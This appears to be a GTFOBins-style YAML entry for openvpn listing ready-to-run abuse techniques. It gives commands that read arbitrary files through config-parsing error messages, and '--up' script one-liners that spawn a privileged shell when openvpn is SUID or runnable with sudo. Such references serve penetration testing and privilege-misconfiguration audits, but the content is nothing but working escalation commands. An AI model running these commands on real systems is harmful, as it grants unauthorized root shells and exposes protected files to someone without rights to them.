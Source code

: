 ```yaml
---
functions:
  file-read:
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        openvpn --config "$LFILE"
  suid:
    - code: |
        ./openvpn --dev tun0 --script-security 2 --up '/bin/sh -p -c "sh -p"'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        ./openvpn --config "$LFILE"
  sudo:
    - code: |
        sudo openvpn --dev tun0 --script-security 2 --up '/bin/sh -c sh'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        sudo openvpn --config "$LFILE"
---
```

